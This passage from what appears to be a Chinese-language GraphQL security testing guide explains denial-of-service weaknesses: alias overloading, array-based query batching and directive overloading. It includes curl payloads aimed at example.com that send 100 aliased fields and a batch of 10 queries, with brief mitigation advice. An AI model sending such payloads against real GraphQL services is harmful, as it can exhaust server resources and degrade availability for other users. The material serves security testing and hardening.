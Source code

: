 ```graphql
-d '{"query": "{ alias0:__typename \nalias1:__typename \nalias2:__typename \nalias3:__typename \nalias4:__typename \nalias5:__typename \nalias6:__typename \nalias7:__typename \nalias8:__typename \nalias9:__typename \nalias10:__typename \nalias11:__typename \nalias12:__typename \nalias13:__typename \nalias14:__typename \nalias15:__typename \nalias16:__typename \nalias17:__typename \nalias18:__typename \nalias19:__typename \nalias20:__typename \nalias21:__typename \nalias22:__typename \nalias23:__typename \nalias24:__typename \nalias25:__typename \nalias26:__typename \nalias27:__typename \nalias28:__typename \nalias29:__typename \nalias30:__typename \nalias31:__typename \nalias32:__typename \nalias33:__typename \nalias34:__typename \nalias35:__typename \nalias36:__typename \nalias37:__typename \nalias38:__typename \nalias39:__typename \nalias40:__typename \nalias41:__typename \nalias42:__typename \nalias43:__typename \nalias44:__typename \nalias45:__typename \nalias46:__typename \nalias47:__typename \nalias48:__typename \nalias49:__typename \nalias50:__typename \nalias51:__typename \nalias52:__typename \nalias53:__typename \nalias54:__typename \nalias55:__typename \nalias56:__typename \nalias57:__typename \nalias58:__typename \nalias59:__typename \nalias60:__typename \nalias61:__typename \nalias62:__typename \nalias63:__typename \nalias64:__typename \nalias65:__typename \nalias66:__typename \nalias67:__typename \nalias68:__typename \nalias69:__typename \nalias70:__typename \nalias71:__typename \nalias72:__typename \nalias73:__typename \nalias74:__typename \nalias75:__typename \nalias76:__typename \nalias77:__typename \nalias78:__typename \nalias79:__typename \nalias80:__typename \nalias81:__typename \nalias82:__typename \nalias83:__typename \nalias84:__typename \nalias85:__typename \nalias86:__typename \nalias87:__typename \nalias88:__typename \nalias89:__typename \nalias90:__typename \nalias91:__typename \nalias92:__typename \nalias93:__typename \nalias94:__typename \nalias95:__typename \nalias96:__typename \nalias97:__typename \nalias98:__typename \nalias99:__typename \nalias100:__typename \n }"}' \
'https://example.com/graphql'
```
{% endcode %}

为了解决这个问题，实施别名计数限制、查询复杂性分析或速率限制，以防止资源滥用。

### **基于数组的查询批处理**

**基于数组的查询批处理**是一种漏洞，其中GraphQL API允许在单个请求中批处理多个查询，使攻击者能够同时发送大量查询。这可能会通过并行执行所有批处理查询来压垮后端，消耗过多的资源（CPU、内存、数据库连接），并可能导致**服务拒绝（DoS）**。如果对批处理中的查询数量没有限制，攻击者可以利用这一点来降低服务可用性。

{% code overflow="wrap" %}
```graphql
# Test provided by https://github.com/dolevf/graphql-cop
curl -X POST -H "User-Agent: graphql-cop/1.13" \
-H "Content-Type: application/json" \
-d '[{"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}]' \
'https://example.com/graphql'
```
{% endcode %}

在这个例子中，10个不同的查询被批量处理成一个请求，迫使服务器同时执行所有查询。如果利用更大的批量大小或计算开销大的查询，这可能会使服务器过载。

### **指令过载漏洞**

**指令过载**发生在GraphQL服务器允许带有过多重复指令的查询时。这可能会使服务器的解析器和执行器不堪重负，特别是当服务器重复处理相同的指令逻辑时。如果没有适当的验证或限制，攻击者可以通过构造一个包含大量重复指令的查询来利用这一点，从而触发高计算或内存使用，导致**服务拒绝（DoS）**。
